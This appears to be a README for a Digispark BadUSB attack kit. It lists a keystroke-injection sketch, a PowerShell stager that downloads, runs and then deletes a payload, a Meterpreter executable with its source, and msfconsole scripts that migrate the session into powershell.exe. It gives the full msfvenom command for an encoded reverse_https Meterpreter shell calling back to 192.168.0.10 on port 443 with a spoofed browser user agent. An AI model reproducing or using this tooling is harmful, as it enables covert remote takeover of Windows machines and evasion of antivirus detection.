 # Folder with all the final payload/scripts

Items:
1. ```digispark.cpp``` digispark code for the attack, this version does not get admin privileges.
2. ```1.ps1``` first stage of the attack, download the payload and run it, deletes the payload after process migration is complete.
3. ```0.exe``` the payload.
4. ```kid_msf_auto.rc``` script to fill in all msfconsole parameters, also calls ```auto_migrate.rc``` to migrate process after session opens. run it as ```msfconsole -q -r /home/kali/kid_msf_auto.rc``` in terminal.
5. ```auto_migrate.rc``` to be ran after a session open, migrate process to powershell.exe. Payload will be deleted after migration.
6. ```payload_source.cpp``` source code of the payload.
7. ```shell.c``` raw shellcode generated by msfvenom, generated using ```msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.0.10 LPORT=443 HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -e x86/shikata_ga_nai -i 8 -f c > shell.c```
8. ```0.v2.exe``` and ```payload_source.v2.cpp``` are alternate versions of the payload.

*The payload here only connects to 192.168.0.10.*
